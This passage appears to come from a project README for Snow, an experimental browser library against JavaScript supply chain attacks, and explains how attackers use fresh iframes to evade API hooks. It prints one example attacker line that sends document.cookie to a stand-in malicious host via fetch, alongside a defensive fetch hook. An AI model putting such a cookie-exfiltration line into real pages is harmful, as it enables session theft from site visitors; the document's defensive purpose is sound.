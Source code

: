 **`Across` is built on top of `Snow`. Both `Across` and `Snow` are built on top of `Securely`.**

**⚠️ These technologies are currently experimental!**

## The [Supply Chain Attacks](https://www.google.com/search?q=javascript+website+supply+chain+attack) Problem

In general, the ability to execute unwanted code within a website is still a major problem.
Doing so with XSS is less common these days, but with infection of the supply chain of web apps which is a rising issue, it's still very much possible.

To prevent such attacks, there are many different areas to defend. 
In my attempt, I focus on the real time prevention in the browser. 
Or in other words, what can attackers do once they successfully run within the website in the browser, and what I can do to make it harder for them?

### [Snow ❄️](https://github.com/lavamoat/snow)

> Snow intercepts every possible way of creating a new iframe, and grants you first access to its window, even before the creator of that iframe.
> In this [DEMO CTF](https://lavamoat.github.io/snow/demo/) I use Snow to disable access to `alert` API - think you can bypass Snow and pop an alert?

![Snow DEMO CTF](https://s4.gifyu.com/images/Screen-Recording-2022-08-07-at-17.39.25.gif)

Lack of full control over iFrames is a major enabler for successfully carrying supply chain attacks. 
To be more precise, let's get into the attackers shoes:

Assuming we already successfully breached the supply chain of a web app and we use our code execution to steal information and exfiltrate it
using `fetch` API:

```javascript
fetch('https://malicious.com/steal/cookies?data=' + document.cookie);
```

As a defender, I can hook `fetch` to block or at least log such attempt and by that potentially uncover such malicious activity in the website:

```javascript
const realFetch = window.fetch;
window.fetch = function(arg1, arg2, arg3) {
    console.log('fetch activity logged, might be an attacker', arg1, arg2, arg3);
    return realFetch.call(this, arg1, arg2, arg3);
};
```

There are already third party vendors that offer security services to websites against supply chain attacks by hooking sensitive
APIs in the website (just like attackers do) in order to track their usage and discover malicious activity.

The problem with that approach is `iframes`.

When creating a new `iframe`, a new `window` is attached to it, with all the usual APIs the top window exposes.
So if such a security vendor hooks `fetch` API to catch attackers, the attackers can easily avoid that hook by creating
a new iframe and pulling out of there a brand new `fetch` API:
